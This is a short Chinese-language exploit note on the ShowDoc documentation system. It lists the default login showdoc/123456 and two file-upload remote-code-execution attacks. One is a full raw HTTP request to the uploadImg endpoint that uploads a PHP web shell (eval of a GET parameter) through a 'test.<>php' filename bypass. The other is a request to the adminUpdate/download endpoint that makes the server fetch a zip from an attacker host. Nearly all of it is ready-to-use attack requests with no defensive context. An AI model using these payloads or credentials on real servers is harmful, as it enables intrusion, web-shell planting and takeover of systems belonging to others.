

showdoc
目录
ShowDoc是一种在线文档系统，它可以帮助团队或个人快速创建、共享和管理文档
默认密码
默认用户名showdoc，默认密码123456)
文件上传rce 1
ShowDoc < V2.8.3
POST /index.php?s=/home/page/uploadImg HTTP/1.1
Host: xxx.xxx.xxx.xxx:port
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: multipart/form-data; boundary=--------------------------921378126371623762173617
Content-Length: 262
----------------------------921378126371623762173617
Content-Disposition: form-data; name="editormd-image-file"; filename="test.<>php"
Content-Type: text/plain
<?php echo '123_test';@eval($_GET[cmd])?>
----------------------------921378126371623762173617--
文件上传rce 2
ShowDoc < V2.9.5

POST /server/index.php?s=/api/adminUpdate/download
file_url=http://xxx.xxx.xxx:8888/showdoc-2.zip&new_version=2